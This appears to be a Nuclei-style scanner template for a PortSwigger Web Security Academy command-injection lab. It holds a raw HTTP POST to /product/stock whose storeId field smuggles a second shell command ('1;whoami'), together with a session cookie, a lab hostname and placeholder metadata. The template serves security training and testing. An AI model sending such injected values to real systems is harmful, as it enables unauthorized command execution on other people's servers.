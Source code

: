 ## lab1 :

d: command_injection

info:
  name: command_injection
  author: ngyen
  severity: Critical
  description: description
  reference:
    - https://
  tags: tags

requests:
  - raw:
      - |
        POST /product/stock HTTP/2
        Host: {{Hostname}}
        Cookie: session=zDWGnfHmxf5pGw7d7qPXImUOHsIr3VOt
        Content-Length: 24
        Sec-Ch-Ua:
        Sec-Ch-Ua-Platform: ""
        Sec-Ch-Ua-Mobile: ?0
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) C>
        Content-Type: application/x-www-form-urlencoded
        Accept: */*
        Origin: {{BaseURL}}
        Sec-Fetch-Site: same-origin
        Sec-Fetch-Mode: cors
        Sec-Fetch-Dest: empty
        Referer: https://0a6800cc03ebf96b802785b100ef00f0.web-security-academy.net/product?productId=1
        Accept-Encoding: gzip, deflate
        Accept-Language: en-US,en;q=0.9

        productId=1&storeId=1;whoami

    matchers:
      - type: dsl
        dsl:
          - 'status_code == 200'
